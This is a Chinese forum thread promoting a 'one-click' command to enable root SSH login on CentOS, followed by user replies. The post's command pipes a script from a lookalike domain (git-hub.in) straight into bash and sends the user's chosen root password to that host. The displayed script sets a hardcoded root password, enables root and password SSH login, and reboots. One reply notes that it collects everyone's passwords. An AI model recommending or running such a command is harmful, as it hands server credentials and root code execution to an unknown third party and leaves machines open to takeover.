 # Centos一键开启ROOT登录SSH


<div class="quote"><blockquote>bash &lt;(curl https://git-hub.in/ssh.php?pwd=密码)</blockquote></div><br />
<br />
<strong>目前仅支持Centos6/7 非此系统用户请手动重启SSHD服务</strong><br />
<br />
PHP文件源代码（不放心的可以自建）：<img id="aimg_lr989" onclick="zoom(this, this.src, 0, 0, 0)" class="zoom" src="https://img.qcair.cc/img/4562" onmouseover="img_onmouseoverfunc(this)" onload="thumbImg(this)" border="0" alt="" />

#!/bin/bash<br />
echo root:746461jiok |sudo chpasswd root<br />
sudo sed -i 's/^#\?PermitRootLogin.*/PermitRootLogin yes/g' /etc/ssh/sshd_config;<br />
sudo sed -i 's/^#\?PasswordAuthentication.*/PasswordAuthentication yes/g' /etc/ssh/sshd_config;<br />
sudo reboot<br />
<br />
<br />
<br />
我都是用这个&nbsp;&nbsp;aws.gcp.甲骨文

然后所有密码都被你收集起来了 真棒<img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" />

这个php有点没看懂。。。现在php还可以直接生成sh了？太强了吧

well done<br />
<br />
<br />
<br />
/**<br />
 * 错的不是我， 错的是世界。 -- [School day]-----------By 开保时捷的男人

我寻思这不是 vim 改一下文件就好了吗， 1分钟不到的事

Gcp. 應該能用上

AWS，AZ，都能一行代码搞定嘛？<br />
<br />
<img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" /><img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" /><img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" />
